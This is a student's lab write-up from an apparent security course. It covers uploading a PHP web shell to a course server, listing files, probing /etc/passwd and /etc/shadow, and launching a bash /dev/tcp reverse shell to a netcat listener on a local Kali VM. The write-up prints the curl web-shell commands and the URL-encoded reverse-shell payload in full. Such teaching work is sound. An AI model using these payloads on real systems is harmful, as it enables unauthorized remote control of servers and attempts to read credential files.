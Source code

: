 # Our first reverse shell

**Name**: Palmy Klangsathorn

---

## Part 1: Installing a PHP web shell

### a. Explain how you can execute the Linux command whoami on the server using your webshell. What result do you get when you execute that command?

**Answer:** To execute the Linux command whoami on the server, I access my web shell by visiting the following URL: [http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=whoami](http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=whoami)

or do this in terminal

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=whoami"
```

The `command=whoami` part of the URL sends the `whoami` command to the PHP web shell, which uses the `system()` function in PHP to execute the command on the server. The result I get when I execute `whoami` is `www-data`. This shows that the web server is running under the `www-data` user, which is typical for web servers on Linux.

### b. What is this webshell's `<pre>` tag for? (And more to the point, what happens if you leave it out?)

**Answer:** The `<pre>` tag in HTML is used to format text with preserved whitespace, line breaks, and fixed-width font. In this web shell, using `<pre>` around the PHP code output would display the command output exactly as it appears on the server, including any indentation, line breaks, or spacing, making it easier to read. If the `<pre>` tag is left out, the output may appear condensed, and formatting could be lost, making it harder to interpret multiline command outputs or complex data.

---

## Part 2: Looking around

### a. What directory is danger's website located in?

**Answer:**

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=pwd"
```

I got `/var/www/danger.jeffondich.com/uploadedimages`

### b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?

**Answer:**

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls"
```

Here are what i got, these are some examples of mine:

klangsathornp-dog.jpg
klangsathornp-dog1.png
klangsathornp-webshell.php
klangsathornp-webshell1.php
.
.
.

### c. Do you have access to the file /etc/passwd? What's in it?

**Answer:**

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20/etc/passwd"
```

I got this `curl: (56) Recv failure: Connection reset by peer`

### d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look online for the answer to that second question, since the answer to the first is no.)

**Answer:** No, I don't

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20/etc/shadow"
```

I got this `/etc/shadow`, this output confirmed restricted access

### e. There may be some secret files scattered around. See how many you can find and report on your discoveries.

**Answer:** Search just specifically for files that start with a dot in their names (hidden files)

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20/var/www/danger.jeffondich.com/uploadedimages/%2E%2A"
```

### f. [Optional] Report on anything else interesting you discover.

**Answer:** Here is how to search specifically for files containing my name, klangsathornp, by using a command to filter filenames that match:

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20%2Fvar%2Fwww%2Fdanger.jeffondich.com%2Fuploadedimages%20%7C%20grep%20'klangsathornp'"
```

---

## Part 3: Setup for Part 4

sudo systemctl start apache2

---

## Part 4: launching a reverse shell

### a. What is the IP address of your Kali VM (the target machine)? How did you find out?

**Answer:**

In the Kali VM terminal, run the following command:

```bash
ip a
```

The IP address of my Kali VM is `192.168.64.2`

### b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?

**Answer:**

In my computer terminal, run:

```bash
ifconfig
```

Here, I got a long text, look at `bridge100: inet 192.168.64.1`.
IP addresses of my host OS is `192.168.64.1`

### c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT

**Answer:**

```bash
nc -l -p 6000
```

### d. In a browser on your host machine, use your web shell to go to this crazy URL.

**Answer:**

```url
http://192.168.64.2/klangsathornp-webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/6000%200%3E%261%22
```

### e. Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?

**Answer:**

```bash
nc -l -p 6000
```

In the `nc -l -p 6000` terminal, I now have a shell prompt from the Kali machine. To verify, I typed commands like `whoami`. It returned the username of the Kali VM, confirming that I am executing commands on the Kali machine.

### f. What are all those % codes in the URL you used?

**Answer:** The `%` codes in the URL are URL-encoded characters, used to safely pass special characters within a URL. Here are just some of the examples of the `%` codes:

- `%20` is a space (` `)
- `%3E` is `>`
- `%26` is `&`
- `%2F` replaces slashes (/).
- `%7C` replaces the pipe (|).

These `%` codes ensure that the command is properly interpreted by the web server without issues caused by special characters.

### g. Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.

**Answer:** A reverse shell allows an attacker (host OS) to gain control of a target machine (Kali) by setting up a listener on the host and initiating a connection from the target to the host. Here’s how it works:

1. **Listener Setup**: The host machine starts a `netcat` listener (`nc -l -p 6000`), waiting for an incoming connection from the target.
2. **Connection Initiation**: On the target machine (Kali), we use a specially crafted command via a web shell (accessed at `http://192.168.64.2/klangsathornp-webshell.php`) to run:
   ```bash
   bash -c "bash -i >& /dev/tcp/192.168.64.1/6000 0>&1"
   ```

---

